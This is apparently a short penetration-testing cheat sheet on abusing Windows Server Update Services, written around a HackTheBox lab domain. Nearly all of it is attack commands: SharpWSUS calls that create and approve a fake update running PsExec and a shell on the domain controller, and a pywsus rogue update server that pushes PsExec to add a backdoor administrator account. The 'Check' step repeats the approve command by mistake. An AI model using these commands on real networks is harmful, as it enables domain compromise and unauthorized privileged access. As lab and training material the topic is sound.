 https://github.com/nettitude/SharpWSUS

```powershell
.\sharpwsus.exe create /payload:"C:\programdata\psexec.exe" /args:"-accepteula -s -d C:\programdata\shell.exe" /title:"Pwned"
```

Approve afterwards
```powershell
.\sharpwsus.exe approve /updateid:101126cc-fce2-4691-bf33-40a701c95a49 /computername:DC.outdated.htb /groupname:"Pwned"
```

Check
```powershell
.\sharpwsus.exe approve /updateid:101126cc-fce2-4691-bf33-40a701c95a49 /computername:DC.outdated.htb /groupname:"Pwned"
```
[Resource](https://retest.dk/wsus-local-privesc-delivery-optimization/?lang=en)
[pywsus](https://github.com/GoSecure/pywsus)

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
```

Then, edit /etc/hosts on the attacker’s machine, adding an entry that will point to the access point’s IP for that domain

```bash
10.10.11.175 wsus.outdated.htb
```

Once [pywsus](https://github.com/GoSecure/pywsus) is downloaded, we need to download and extract [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec). The rogue WSUS server can then be started with the command:

```bash
python pywsus.py --host 10.10.11.175 --port 8530 --executable /home/adot/opt/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user adot Pwned123~ /add && net localgroup administrators adot /add"'
```